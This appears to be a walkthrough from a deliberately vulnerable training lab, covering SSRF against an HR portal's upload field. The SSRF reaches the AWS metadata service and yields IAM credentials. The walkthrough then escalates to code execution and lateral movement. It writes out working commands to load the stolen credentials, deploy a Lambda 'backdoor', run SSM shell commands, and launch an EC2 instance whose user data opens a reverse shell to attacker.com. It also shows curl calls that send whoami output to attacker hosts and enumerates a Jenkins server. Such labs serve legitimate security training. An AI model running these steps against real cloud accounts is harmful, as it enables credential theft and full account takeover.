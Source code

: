 
# Attack 2: Server-Side Request Forgery (SSRF) to Remote Code Execution (RCE)

SSRF allows attackers to make the server perform HTTP requests to internal resources. This can be escalated to Remote Code Execution in certain scenarios.

## Step 1: Access the Document Upload Page

1. First, log in to the HR Portal (you can use the SQL injection from Attack 1)
2. Navigate to the Document Upload page (`/documents`)

## Step 2: Performing the SSRF Attack

1. Select any file to upload (the content doesn't matter)
2. Look for the "Upload Destination URL" field
3. By default, it will contain `s3://employee-bucket/documents/`
4. Change the upload URL to: `http://169.254.169.254/latest/meta-data/`
5. Click "Upload Document"
6. Observe the response displayed in the "Response" section below the upload form

## Step 3: Extract IAM Credentials

1. Change the upload URL to: `http://169.254.169.254/latest/meta-data/iam/security-credentials/hr-portal-ec2-role`
2. Click "Upload Document"
3. This will return temporary AWS credentials including:
   - `AccessKeyId`
   - `SecretAccessKey`
   - `Token`
4. Save these credentials for the next steps

## Step 4: Configure AWS CLI with the Stolen Credentials

```bash
# Configure AWS CLI with the stolen credentials
export AWS_ACCESS_KEY_ID=ASIA...  # Use the AccessKeyId from Step 3
export AWS_SECRET_ACCESS_KEY=...  # Use the SecretAccessKey from Step 3
export AWS_SESSION_TOKEN=...      # Use the Token from Step 3
export AWS_DEFAULT_REGION=us-east-1  # Adjust region if necessary
```

## Step 5: Escalate SSRF to RCE

For escalating SSRF to RCE, there are several potential paths depending on the environment:

1. **Lambda Function Method**:
   - Using the stolen AWS credentials, create a malicious Lambda function
   ```bash
   # Create a file named function.zip containing your payload
   aws lambda create-function \
     --function-name backdoor \
     --runtime nodejs18.x \
     --role arn:aws:iam::account-id:role/lambda-execution-role \
     --handler index.handler \
     --zip-file fileb://function.zip
   
   # Invoke the function
   aws lambda invoke \
     --function-name backdoor \
     --payload '{}' \
     response.txt
   ```
   
   Sample payload for Lambda (in index.js):
   ```javascript
   exports.handler = async (event) => {
     const { exec } = require('child_process');
     return new Promise((resolve, reject) => {
       exec('curl http://attacker-server.com/$(whoami)', (error, stdout, stderr) => {
         resolve({
           statusCode: 200,
           body: { stdout, stderr }
         });
       });
     });
   };
   ```

2. **SSM Send Command Method**:
   - If the EC2 role has SSM permissions, you can execute commands directly on the instance
   ```bash
   # List all instances to find targets
   aws ec2 describe-instances --query "Reservations[].Instances[].{ID:InstanceId,Name:Tags[?Key=='Name']|[0].Value,State:State.Name,IP:PrivateIpAddress}"
   
   # Execute command on target instance
   aws ssm send-command \
     --document-name "AWS-RunShellScript" \
     --parameters commands=["curl http://attacker.com/$(whoami)"] \
     --targets "Key=instanceids,Values=i-1234567890abcdef0"
   ```

3. **EC2 Instance Profile Method**:
   - Create a new EC2 instance with a reverse shell in user data
   ```bash
   aws ec2 run-instances \
     --image-id ami-abcdef123456 \
     --instance-type t2.micro \
     --security-group-ids sg-abcdef123456 \
     --subnet-id subnet-abcdef123456 \
     --iam-instance-profile Name=hr-portal-ec2-role \
     --user-data "#!/bin/bash
     curl http://attacker.com/$(whoami)
     bash -i >& /dev/tcp/attacker.com/4444 0>&1"
   ```

## Step 6: Use AWS CLI to Discover Other EC2 Instances

```bash
# List all EC2 instances in the account
aws ec2 describe-instances

# Store the Jenkins server information
JENKINS_INSTANCE_ID=$(aws ec2 describe-instances --filters "Name=tag:Name,Values=Demo-Jenkins" --query "Reservations[0].Instances[0].InstanceId" --output text)
JENKINS_PRIVATE_IP=$(aws ec2 describe-instances --filters "Name=tag:Name,Values=Demo-Jenkins" --query "Reservations[0].Instances[0].PrivateIpAddress" --output text)
JENKINS_AZ=$(aws ec2 describe-instances --filters "Name=tag:Name,Values=Demo-Jenkins" --query "Reservations[0].Instances[0].Placement.AvailabilityZone" --output text)
```

With this information, you can proceed to Attack 3 (Network Scanning) to probe the Jenkins server.
